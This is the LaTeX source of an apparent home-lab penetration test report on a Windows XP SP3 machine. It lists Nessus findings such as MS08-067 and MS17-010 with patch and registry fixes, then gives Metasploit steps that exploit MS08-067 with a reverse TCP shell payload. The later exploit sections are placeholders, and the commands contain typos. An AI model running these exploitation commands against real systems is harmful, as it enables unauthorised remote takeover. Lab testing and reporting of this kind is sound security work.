\documentclass[12pt]{article}
\usepackage{graphicx} %Required for the inclusion of images
\usepackage{float}
\usepackage{tcolorbox}%Required for colored boxes
\usepackage[obeyspaces]{url}%Required for windows path
\usepackage{verbatim}%Required for multiline comment
\usepackage{listings}%Required for displaying linux/unix command highlighting in latex

\begin{document}
\title{Windows XP SP3 Penetration Testing Report}%project title
\author{John \textsc{Doe}}%your name
\date{\today}
\maketitle
\newpage
\tableofcontents
\newpage

\section{Project Overview}
\begin{flushleft}
\textbf{Conducted by: } John Doe\\
\vspace{4mm}
\textbf{Conducted for: } Windows XP sp3\\
\vspace{4mm}
\textbf{Date Conducted: } September 29, 2017\\
\vspace{4mm}
\textbf{Focus of Assessment: } Conducted penetration testing for the Windows XP sp3 client.
\end{flushleft}

\begin{tcolorbox}[title=Home Lab Client]
OS: \textbf{Windows XP SP3 English}\\ 
IP:  \textbf{10.10.10.130}
\end{tcolorbox}

\section{Executive Summary}
The following report details the findings from the security assessment for the Windows XP SP3. The assessment included the following activities as outlined in the Vulnerability Assessment Profiles section of the Assessment Program document.

\begin{itemize}
	\item Vulnerability Assessment 
	\item	Penetration Testing
\end{itemize}

\section{Findings and Recommendations}
The following findings and recommendations are made per the output from the Nessus scan. Any additional recommendations beyond what any scanning tools supply are included as necessary. \\

%--------------------------
% Critical
%--------------------------
%---------------------------------------
% Critical vulnerability template
%---------------------------------------

\subsection{Critical Vulnerabilities (3)}
\begin{tcolorbox}[
	title=MS08-067: Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution (958644) (uncredentialed check) - Nessus Plugin ID 34477,
	colback=red!5!white,%background color
	colframe=red!75!black,%box frame color 
	subtitle style={boxrule=0.4pt, colback=red!50!white}%subtitle box color	
	] 
	10.10.10.130 (tcp/445)
\tcbsubtitle{Synopsis}
The remote Windows host is affected by a remote code execution vulnerability.
\tcbsubtitle{Description}
The remote Windows host is affected by a remote code execution vulnerability in the 'Server' service due to improper handling of RPC requests. An unauthenticated, remote attacker can exploit this, via a specially crafted RPC request, to execute arbitrary code with `System' privileges.\\
ECLIPSEDWING is one of multiple Equation Group vulnerabilities and exploits disclosed on 2017/04/14 by a group known as the Shadow Brokers.
\tcbsubtitle{Solution}
Microsoft has released a set of patches for Windows 2000, XP, 2003, Vista and 2008.
\tcbsubtitle{See Also}
\url{http://technet.microsoft.com/en-us/security/bulletin/ms08-067}
\tcbsubtitle{Exploitable with}
Metasploit (MS08-067 Microsoft Server Service Relative Path Stack Corruption) 
\end{tcolorbox}

\begin{tcolorbox}[
	title=MS09-001: Microsoft Windows SMB Vulnerabilities Remote Code Execution (958687) (uncredentialed check) - Nessus Plugin ID 35362,
	colback=red!5!white,
	colframe=red!75!black,
	subtitle style={boxrule=0.4pt, colback=red!50!white}	
	] 
	10.10.10.130 (tcp/445)
\tcbsubtitle{Synopsis}
It is possible to crash the remote host due to a flaw in SMB.
\tcbsubtitle{Description}
The remote host is affected by a memory corruption vulnerability in SMB that may allow an attacker to execute arbitrary code or perform a denial of service against the remote host.\\
\tcbsubtitle{Solution}
Microsoft has released a set of patches for Windows 2000, XP, 2003, Vista and 2008.
\tcbsubtitle{See Also}
\url{http://www.microsoft.com/technet/security/bulletin/ms09-001.mspx}
\tcbsubtitle{Exploitable with}
Metasploit (Microsoft SRV.SYS WriteAndX Invalid DataOffset) 
\end{tcolorbox}

\begin{tcolorbox}[
	title=MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check) - Nessus Plugin ID 97833,
	colback=red!5!white,
	colframe=red!75!black,
	subtitle style={boxrule=0.4pt, colback=red!50!white}	
	] 
	10.10.10.130 (tcp/445)
\tcbsubtitle{Synopsis}
The remote Windows host is affected by multiple vulnerabilities.
\tcbsubtitle{Description}
The remote Windows host is affected by the following vulnerabilities :\\
- Multiple remote code execution vulnerabilities exist in Microsoft Server Message Block 1.0 (SMBv1) due to improper handling of certain requests. An unauthenticated, remote attacker can exploit these vulnerabilities, via a specially crafted packet, to execute arbitrary code. (CVE-2017-0143, CVE-2017-0144, CVE-2017-0145, CVE-2017-0146, CVE-2017-0148)\\
- An information disclosure vulnerability exists in Microsoft Server Message Block 1.0 (SMBv1) due to improper handling of certain requests. An unauthenticated, remote attacker can exploit this, via a specially crafted packet, to disclose sensitive information. (CVE-2017-0147)\\
ETERNALBLUE, ETERNALCHAMPION, ETERNALROMANCE, and ETERNALSYNERGY are four of multiple Equation Group vulnerabilities and exploits disclosed on 2017/04/14 by a group known as the Shadow Brokers. WannaCry / WannaCrypt is a ransomware program utilizing the ETERNALBLUE exploit, and EternalRocks is a worm that utilizes seven Equation Group vulnerabilities. Petya is a ransomware program that first utilizes CVE-2017-0199, a vulnerability in Microsoft Office, and then spreads via ETERNALBLUE.
\tcbsubtitle{Solution}
Microsoft has released a set of patches for Windows 2000, XP, 2003, Vista and 2008.
\tcbsubtitle{See Also}
\url{https://technet.microsoft.com/library/security/MS17-010}\\
\url{https://blogs.technet.microsoft.com/filecab/2016/09/16/stop-using-smb1/}\\
\url{https://github.com/stamparm/EternalRocks/}
\tcbsubtitle{Exploitable with}
Metasploit (MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption) 
\end{tcolorbox}


%--------------------------
% Medium
%--------------------------
%--------------------------
% Medium
%--------------------------

\subsection{Medium Vulnerabilities (2)}
\begin{tcolorbox}[
	title=Microsoft Windows SMB NULL Session Authentication - Nessus Plugin ID 26920,
	colback=yellow!5!white,
	colframe=yellow!75!black,
	subtitle style={boxrule=0.4pt, colback=yellow!50!white}	
	] 
	It was possible to bind to the \textbackslash browser pipe
\tcbsubtitle{Synopsis}
It is possible to log into the remote Windows host with a NULL session.
\tcbsubtitle{Description}
The remote host is running Microsoft Windows. It is possible to log into it using a NULL session (i.e., with no login or password).\\
Depending on the configuration, it may be possible for an unauthenticated, remote attacker to leverage this issue to get information about the remote host.
\tcbsubtitle{Solution}
Apply the following registry changes per the referenced Technet advisories :\\
Set :\\
-\path{HKLM\SYSTEM\CurrentControlSet\Control\LSA\RestrictAnonymous=1}\\
-\path{HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters\restrictnullsessaccess=1}\\
Remove BROWSER from :\\
-\path{HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters\NullSessionPipes}\\ 
Reboot once the registry changes are complete.
\tcbsubtitle{See Also}
\url{http://support.microsoft.com/kb/q143474/}\\
\url{http://technet.microsoft.com/en-us/library/cc785969(WS.10).aspx}
\end{tcolorbox}

\begin{tcolorbox}[
	title=SMB Signing Disabled - Nessus Plugin ID 57608,
	colback=yellow!5!white,
	colframe=yellow!75!black,
	subtitle style={boxrule=0.4pt, colback=yellow!50!white}	
	] 
	10.10.10.130 (tcp/445)
\tcbsubtitle{Synopsis}
Signing is not required on the remote SMB server.
\tcbsubtitle{Description}
Signing is not required on the remote SMB server. An unauthenticated, remote attacker can exploit this to conduct man-in-the-middle attacks against the SMB server.
\tcbsubtitle{Solution}
Enforce message signing in the host's configuration. On Windows, this is found in the policy setting `Microsoft network server: Digitally sign communications (always)'. On Samba, the setting is called `server signing'. See the 'see also' links for further details.
\tcbsubtitle{See Also}
\url{https://support.microsoft.com/en-us/kb/887429}\\
\url{http://technet.microsoft.com/en-us/library/cc731957.aspx}\\
\url{http://www.samba.org/samba/docs/man/manpages-3/smb.conf.5.html}
\end{tcolorbox}


%--------------------------
% Info
%--------------------------
%%--------------------------
% Info 
%--------------------------

\subsection{Info Vulnerabilities (2)}
\begin{tcolorbox}[
	title=Microsoft Windows SMB NULL Session Authentication - Nessus Plugin ID 26920,
	colback=green!5!white,
	colframe=green!75!black,
	subtitle style={boxrule=0.4pt, colback=green!50!white}	
	] 
	It was possible to bind to the \textbackslash browser pipe
\tcbsubtitle{Synopsis}
It is possible to log into the remote Windows host with a NULL session.
\tcbsubtitle{Description}
The remote host is running Microsoft Windows. It is possible to log into it using a NULL session (i.e., with no login or password).\\
Depending on the configuration, it may be possible for an unauthenticated, remote attacker to leverage this issue to get information about the remote host.
\tcbsubtitle{Solution}
Apply the following registry changes per the referenced Technet advisories :\\
Set :\\
-\path{HKLM\SYSTEM\CurrentControlSet\Control\LSA\RestrictAnonymous=1}\\
-\path{HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters\restrictnullsessaccess=1}\\
Remove BROWSER from :\\
-\path{HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters\NullSessionPipes}\\ 
Reboot once the registry changes are complete.
\tcbsubtitle{See Also}
\url{http://support.microsoft.com/kb/q143474/}\\
\url{http://technet.microsoft.com/en-us/library/cc785969(WS.10).aspx}
\end{tcolorbox}

%\newpage
%\input{remeditation}
\newpage
%-------------------------------------
% Penetration Testing Section
%--------------------------------------
\section{Vulnerability Exploitation / Penetration Testing}
The following vulnerabilities will be tested via Metesploit.
\begin{itemize}
\item MS08-067
\item MS09-001
\item MS17-010
\end{itemize}

\subsection{MS08-067}
Nessus found a security hole in the SMB on 10.10.10.130. Per the notes in the aforementioned Nessus output, the remote host is affected by a remote code execution vulnerability - MS08-067 (see pentest details below):\\

\begin{lstlisting}[language=bash]
$ start msfconsole
$ search ms08-068
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{search.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ use exploit/windows/smb/ms08_067_netapi
$ show options
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{show1.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ set RHOST 10.10.10.130
$ show payloads
$ set payload windows/shell_reverse_tcp
$ show options
$ set LHOST 10.10.10.1
$ set LPROT 8443
$ show target
$ set target 6
$ show options
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{show2.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\begin{lstlisting}[language=bash]
$ exploit
\end{lstlisting}

\begin{figure}[H]
\begin{center}

\includegraphics[width=\textwidth]{exploit.png}
%\caption{default}
%\label{default}
\end{center}
\end{figure}

\subsection{MS09-001}
some content

\subsection{MS17-010}
some content

%\newpage
%\input{remeditation}
\end{document}